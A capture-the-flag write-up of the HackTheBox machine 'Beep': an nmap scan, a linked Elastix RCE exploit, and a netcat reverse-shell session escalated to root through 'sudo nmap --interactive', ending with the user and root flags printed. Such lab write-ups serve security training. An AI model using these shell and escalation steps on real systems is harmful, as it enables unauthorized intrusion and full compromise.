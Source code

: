```yaml
---
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit]
image:
    path: /Vulnhub-Files/img/Beep/front.png
    alt: https://www.hackthebox.com/achievement/machine/595651/5
---
```


### Let see the IP Address first →

```bash
IP : 10.10.10.7
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.7      
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-19 19:47 IST
Nmap scan report for 10.10.10.7
Host is up (0.19s latency).
Not shown: 65520 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp?
|_smtp-commands: Couldnt establish connection on port 25
80/tcp   open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https:/10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2023-07-19T14:49:38+00:00; +2s from scanner time.
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql      MySQL (unauthorized)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1s
```
{: .nolineno}

## Web Enumeration ➡️

This site doesn’t work with that old TLS 1.2 version of firefox browser so I redirected the site with the help of burpuite →

![Untitled](/Vulnhub-Files/img/Beep/Untitled.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%201.png)

Now lets see the site →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%202.png)

Now I recon about elastix exploit and I found one exploit interesting which leads to RCE directly so let’s try it out now → [*Exploit*](https://www.exploit-db.com/exploits/18650)

But this exploit needs modification so I find this exploit modified from this [**site**](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/) and use it →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%204.png)

In response to that I got a reverse shell as directed and after following this exploit path I got root too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.213] from (UNKNOWN) [10.10.10.7] 38362
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ whoami
whoami
asterisk
bash-3.2$ pwd
pwd
/tmp
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http:/www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# cd /root
cd /root
sh-3.2# ls -al
ls -al
total 16308
drwxr-x---  2 root root     4096 Jul 16  2019 .
drwxr-xr-x 22 root root     4096 Jul 19 13:15 ..
-rw-------  1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-rw-------  1 root root     1067 Aug 25  2017 .bash_history
-rw-r--r--  1 root root       24 Jan  6  2007 .bash_logout
-rw-r--r--  1 root root      191 Jan  6  2007 .bash_profile
-rw-r--r--  1 root root      176 Jan  6  2007 .bashrc
-rw-r--r--  1 root root      100 Jan  6  2007 .cshrc
-r-xr-xr-x  1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r--  1 root root    18433 Apr  7  2017 install.log
-rw-r--r--  1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r--  1 root root        1 Apr  7  2017 postnochroot
-rw-------  1 root root       33 Jul 19 13:15 root.txt
-rw-r--r--  1 root root      129 Jan  6  2007 .tcshrc
-r-xr-xr-x  1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
sh-3.2# cat root.txt
cat root.txt
e9cbc82da8917eed8f46488876238fa2
sh-3.2# ls -al /home
ls -al /home
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 Jul 19 13:15 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
sh-3.2# cd /home/fanis 
cd /home/fanis
sh-3.2# ls -al
ls -al
total 32
drwxrwxr-x 2 fanis fanis 4096 Apr  7  2017 .
drwxr-xr-x 4 root  root  4096 Apr  7  2017 ..
-rw------- 1 fanis fanis  114 Apr  7  2017 .bash_history
-rw-r--r-- 1 fanis fanis   33 Apr  7  2017 .bash_logout
-rw-r--r-- 1 fanis fanis  176 Apr  7  2017 .bash_profile
-rw-r--r-- 1 fanis fanis  124 Apr  7  2017 .bashrc
-rw-rw-r-- 1 fanis fanis   33 Jul 19 13:15 user.txt
sh-3.2# cat user.txt
cat user.txt
e11bbf4e23bcd880ec590402fa0c9a8e
sh-3.2#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }